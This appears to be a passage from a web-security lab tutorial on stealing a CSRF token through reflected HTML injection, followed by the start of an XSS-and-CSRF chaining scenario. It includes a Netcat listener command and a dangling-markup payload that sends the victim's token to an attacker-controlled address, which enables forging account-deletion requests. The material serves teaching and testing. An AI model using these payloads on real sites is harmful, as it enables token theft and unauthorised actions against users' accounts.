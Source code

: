 The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. Let us attack such an application and try to find a way to leak the CSRF token so that we can mount a CSRF attack.

Imagine you have access to an account on a platform. After authenticating as a user, you'll notice that you can delete your account. Let us see how one could steal the user's CSRF-Token by exploiting an HTML Injection/XSS Vulnerability.

Click on the "Delete" button. You will get redirected to ```/app/delete/<your-email>```

Notice that the email is reflected on the page. Let us try inputting some HTML into the email value, such as:

```html
<h1>h1<u>underline<%2fu><%2fh1>
```

If you inspect the source (Ctrl+U), you will notice that our injection happens before a single quote. We can abuse this to leak the CSRF-Token.

Let us first instruct Netcat to listen on port 8000, as follows:

```bash
nc -nlvp 8000


listening on [any] 8000 ...
```

Now we can get the CSRF token via sending the below payload to our victim:

```
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

We remind you that this attack does not require the attacker to reside in the local network. HTML Injection is used to leak the victim's CSRF token remotely!

<br>
<br>
<br>
<br>

# XSS and CSRF chaining

Sometimes, even if we manage to bypass CSRF protections, we may not be able to create cross-site requests due to some sort of same origin/same site restriction. If this is the case, we can try chaining vulnerabilities to get the end result of CSRF.

### Example scenario

You can access the web application with an account. 

Some facts about the application:

- The application features same origin/same site protections as anti-CSRF measures (through a server configuration - you won't be able to actually spot it);
- The application's Country field is vulnerable to stored XSS attacks (like we saw in the Cross-Site Scripting (XSS) section).
